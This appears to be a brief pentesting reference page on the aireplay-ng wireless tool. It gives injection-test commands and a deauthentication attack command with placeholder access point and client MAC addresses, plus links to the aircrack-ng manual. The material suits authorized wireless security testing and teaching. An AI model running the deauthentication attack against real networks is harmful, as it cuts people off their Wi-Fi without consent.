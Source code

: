 ```yaml
---
description: Aireplay-ng is used to inject frames.
---
```


# Aireplay-ng

## Usage

Perform an injection test:

```bash
aireplay-ng -9 wlan1mon
```

Perform a card to card injection test:

```bash
aireplay-ng -9 -i wlan0 wlan1mon
```

Perform a deauthentication attack - This attack sends disassocate packets to one or more clients which are currently associated with a particular access point.

```bash
aireplay-ng -0 1 -a [ACCESS POINT MAC] -c [CLIENT MAC] wlan1mon
```

## References

* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng) - Manual for Aireplay-ng
* [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication) - Aircrack-ng manual on deauthentication
